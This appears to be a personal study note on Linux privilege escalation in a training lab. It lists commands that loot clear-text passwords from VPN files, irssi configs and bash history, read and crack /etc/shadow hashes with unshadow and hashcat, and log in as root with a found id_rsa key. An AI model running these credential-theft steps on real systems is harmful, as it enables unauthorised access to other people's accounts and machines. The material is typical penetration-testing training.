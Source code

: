 #Linux #PrivEsc #ConfigFiles #Find #bash #history #/etc/passwd #/etc/shadow #ssh 

[Looting for Passwords](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#looting-for-passwords)

# **Stored Passwords (Config Files)**
#ConfigFiles #Find
## **Exploitation**
Linux VM

1. In command prompt type: `cat /home/user/myvpn.ovpn`
2. From the output, make note of the value of the “auth-user-pass” directive.
3. In command prompt type: `cat /etc/openvpn/auth.txt`
4. From the output, make note of the clear-text credentials.
5. In command prompt type: `cat /home/user/.irssi/config | grep -i passw`
6. From the output, make note of the clear-text credentials.

- `history`
	- `ls -la`
		- `cat .bash_history`
- `find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;`

---
# Stored Passwords (History)
#bash #history 

## **Exploitation**
Linux VM

1. In command prompt type: `cat ~/.bash_history | grep -i passw`
2. From the output, make note of the clear-text credentials.

---

# **Weak File Permissions**
#/etc/passwd #/etc/shadow 

## **Detection**
Linux VM

1. In command prompt type: `ls -la /etc/shadow`
2. Note the file permissions

## **Exploitation**
Linux VM

1. In command prompt type: **cat /etc/passwd**
2. Save the output to a file on your attacker machine
3. In command prompt type: **cat /etc/shadow**
4. Save the output to a file on your attacker machine

Attacker VM  

1. In command prompt type:
`unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt`

Now, you have an unshadowed file.  We already know the password, but you can use your favorite hash cracking tool to crack dem hashes.  For example:

`hashcat -m 1800 unshadowed.txt rockyou.txt -O`

---

# **SSH Keys**
#Find #ssh 

## **Detection**
Linux VM

1. In command prompt type: `find / -name authorized_keys 2> /dev/null`
2. In a command prompt type: `find / -name id_rsa 2> /dev/null`  
3. Note the results.

## **Exploitation**
Linux VM

1. Copy the contents of the discovered `id_rsa `file to a file on your attacker VM.


Attacker VM  

1. In command prompt type: `chmod 400 id_rsa`
2. In command prompt type: `ssh -i id_rsa root@<ip>`

You should now have a root shell :)